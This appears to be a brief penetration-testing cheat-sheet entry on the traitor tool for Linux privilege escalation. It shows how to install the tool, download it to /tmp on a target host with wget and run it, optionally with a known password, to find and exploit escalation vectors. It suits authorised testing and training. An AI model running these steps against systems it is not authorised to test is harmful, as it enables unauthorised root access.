 # Privilege Escalation Using traitor

<div class="row row-cols-lg-2"><div>

[traitor](https://github.com/liamg/traitor) <small>(6.5k ⭐, 2022 ☠️)</small> is an open-source tool to automatically detect common privilege escalation vectors and exploit them.

It's written in GO which you need to install to download the tool.

```shell!
$ sudo apt install golang-go
$ CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

The tool is available at `/home/kali/go/bin/traitor`. It can be uploaded and executed on any host without having them install GO.
</div><div>

To find vulnerable escalation vectors:

```shell!
$ wget [...] -O /tmp/traitor
$ /tmp/traitor
$ /tmp/traitor -p   # if the password is known
```
</div></div>